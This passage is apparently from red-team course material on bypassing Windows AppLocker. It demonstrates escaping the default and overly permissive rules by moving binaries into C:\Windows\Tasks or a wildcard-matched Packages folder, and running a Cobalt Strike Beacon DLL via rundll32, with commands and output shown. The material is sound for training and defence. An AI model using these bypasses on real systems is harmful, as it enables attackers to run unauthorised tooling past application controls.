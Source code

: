 The difficulty of bypassing AppLocker depends on the robustness of the rules that have been implemented. The default rule sets are quite trivial to bypass in a number of ways:

1.  Executing untrusted code via trusts LOLBAS's.
2.  Finding writeable directories within "trusted" paths.
3.  By default, AppLocker is not even applied to Administrators.

It is of course common for system administrators to add custom rules to cater for particular software requirements. Badly written or overly permissive rules can open up loopholes that we can take advantage of.

Like LAPS, AppLocker creates a `Registry.pol` file in the `GpcFileSysPath` of the GPO which we can read with the `Parse-PolFile` cmdlet. This is one of the default rules.
```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\921cc481-6e17-4653-8f75-050b80acca20
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 736
ValueData   : <FilePathRule Id="921cc481-6e17-4653-8f75-050b80acca20"
                Name="(Default Rule) All files located in the Program Files folder"
                Description="Allows members of the Everyone group to run applications that are located in the Program Files folder."
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                <Conditions>
                  <FilePathCondition Path="%PROGRAMFILES%\*"/>
                </Conditions>
              </FilePathRule>
```


AppLocker rules applied to a host can also be read from the local registry at `HKLM\Software\Policies\Microsoft\Windows\SrpV2`.

Interestingly, Cobalt Strike's `jump psexec[64]` still works against the default AppLocker rules, because it will upload a service binary into `C:\Windows`, which is a trusted location and thus allowed to execute.

Uploading into `C:\Windows` requires elevated privileges, but there are places like `C:\Windows\Tasks` that are writeable by standard users. These areas are useful in cases where you have access to a machine (e.g. in an assumed breach scenario), and need to break out of AppLocker to run post-ex tooling.

```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.

C:\Users\Administrator\Desktop>move test.exe C:\Windows\Tasks
        1 file(s) moved.

C:\Users\Administrator\Desktop>C:\Windows\Tasks\test.exe
Bye-Bye AppLocker!
```

This is an example of an overly permissive rule.

```
KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\3470949d-4a86-4ec5-aa37-5ad7acd6a925
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 482
ValueData   : <FilePathRule Id="3470949d-4a86-4ec5-aa37-5ad7acd6a925"
                Name="Packages"
                Description="Allow custom packages"
                UserOrGroupSid="S-1-1-0"
                Action="Allow">
                  <Conditions>
                    <FilePathCondition Path="%OSDRIVE%\*\Packages\*"/>
                  </Conditions>
                </FilePathRule>
```
  

The path `%OSDRIVE%\*\Packages\*` expands to `C:\*\Packages\*`, (assuming `C:\` is indeed the OS drive, which it almost always is) - this means we could create a folder called `Packages` anywhere on `C:\` and run exe's from it because of the wildcards.

```
C:\Users\Administrator\Desktop>test.exe
This program is blocked by group policy. For more information, contact your system administrator.


C:\Users\Administrator\Desktop>mkdir Packages

C:\Users\Administrator\Desktop>move test.exe Packages
        1 file(s) moved.

C:\Users\Administrator\Desktop>Packages\test.exe
Bye-Bye AppLocker!
```

  

  
DLL enforcement very rarely enabled due to the additional load it can put on a system, and the amount of testing required to ensure nothing will break.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/applocker/dll-rules.png)

  

Cobalt Strike can output Beacon to a DLL that can be run with **rundll32**.

```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8A6C-CD61

 Directory of C:\Users\Administrator\Desktop

05/17/2021  11:01 PM    <DIR>          .
05/17/2021  11:01 PM    <DIR>          ..
05/17/2021  10:59 PM           311,808 beacon.dll

C:\>C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
```


```
beacon> link dc-1
[+] established link to child beacon: 10.10.15.75
```

If you have access to a Domain Controller or a machine with the appropriate packages installed, you can also enumerate the AppLocker configuration using the native GPO report commands - the `Get-GPOReport` cmdlet and `gpresult` utility.  The most convenient means of consuming the output is to save the report in HTML format, download it to your machine and open in a browser.